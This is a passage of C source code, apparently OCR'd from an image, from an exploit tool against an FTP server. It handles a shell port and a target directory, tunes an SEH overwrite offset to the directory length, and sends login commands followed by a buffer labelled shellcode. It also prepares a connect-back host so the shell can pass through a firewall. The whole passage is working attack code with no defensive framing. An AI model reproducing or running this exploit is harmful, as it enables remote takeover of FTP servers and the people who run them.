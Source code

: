                 case 's':
                    shport=atoi(argv[i+1]);
                    break;
                case 'd':
                    if(argv[i+1][0] != '/')
                        strcpy(szDirectory, "/");
                    strncat(szDirectory, argv[i+1], sizeof(szDirectory)-0x20);

                    if(szDirectory[strlen(szDirectory)-1] != '/')
                        strcat(szDirectory, "/");

                    // correct the directory len
                    for(j=0;j<(strlen(szDirectory)-1)%8;j++)
                        strcat(szDirectory, "x");

                    //printf("%d:%s\r\n", strlen(szDirectory), szDirectory);
                    seh_offset = seh_offset - strlen(szDirectory)+1;
                    break;
            }
        }

        if((!ip) || (!user) || (!pass))
        {
            usage(argv[0]);
            printf("[-] Invalid parameter.\n");
            return;
        }

        if( (iType<0) || (iType>=sizeof(targets)/sizeof(v)) )
        {
            usage(argv[0]);
            printf("[-] Invalid type.\n");
            return;
        }

        if(iPort <0 || iPort >65535 || shport <0 || shport > 65535)
        {
            usage(argv[0]);
            printf("[-] Invalid port.\n");
            return;
        }

        _snprintf(user, sizeof(user)-1, "USER %s\r\n", pUser);
        user[sizeof(user)-1]='\0';
        _snprintf(pass, sizeof(pass)-1, "PASS %s\r\n", pPass);
        pass[sizeof(pass)-1]='\0';
        szSend[0] = user;   //user
        szSend[1] = pass;   //pass
        szSend[2] = penetrate;  //pentrate
        szSend[3] = szCommand;  //shellcode

        // Penetrate through the firewall.
        if(bCb && shport > 1024)
        {
            strncpy(cbHost2, cbHost, 20);
            for(i=0;i<strlen(cbHost); i++)
            {
                if(cbHost[i] == '.')
                    cbHost2[i] = ',';
            }
